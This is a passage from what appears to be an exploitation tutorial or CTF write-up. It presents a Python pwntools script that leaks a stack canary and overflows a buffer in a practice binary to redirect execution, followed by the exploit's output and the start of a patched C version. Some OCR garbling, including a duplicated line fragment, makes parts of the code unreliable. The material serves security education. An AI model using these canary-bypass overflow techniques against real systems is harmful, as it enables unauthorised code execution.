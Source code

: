 ```

#Parse out the canary from the rest of the memory leak
canary = str(re.findall(r'esc(.*?)ape', memleak))

#Remove excess characters, print and convert the canary to a hex string
canary = canary.replace("['", "")
canary = canary.replace("']", "")
canary = "0x" + canary
print "The Canary Is: " + canary
canary = int(canary, 16)

#Designate the first and second filler segments
filler0 = "0"*10
filler1 = "0"*12  

#Pull the symbol for the discovery function address
address = elf.symbols["discovery"]

#Construct the payload by combining the two filler segments, the canary and discovery address (in little endian)
payload = filler0 + p32(canary) + filler1 + p32(address)

#Send the payload (and print it)
print "Sending: " + str(payload)
target.sendline(payload)

#Print the program's output, which should include "Level Cleared!"
print target.recvline()h should include "Level Cleared!"
print target.recvline()
```

Now let's test it.

```
$ python exploit.py 
[+] Starting local process './d0': pid 18332
[*] '/Hackery/escape/def_ovr/d0/d0'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
The Canary Is: 0x4df2f000
Sending: 0000000000\x00��M000000000000\xbf\x85\x0
My best engineers assured me that this code was impenetrable. You have shed some light into this matter. Level Cleared!

[*] Stopped process './d0' (pid 18332)
```

Just like that, we pwned the binary! Now to patch it.

```
$ cat d0_secure.c
#include <stdlib.h>
#include <stdio.h>

void revelation()
{
  char light[489];
  fgets(light, sizeof(light) - 1, stdin);
  printf("%s\n", light);
}

void pivot() 
```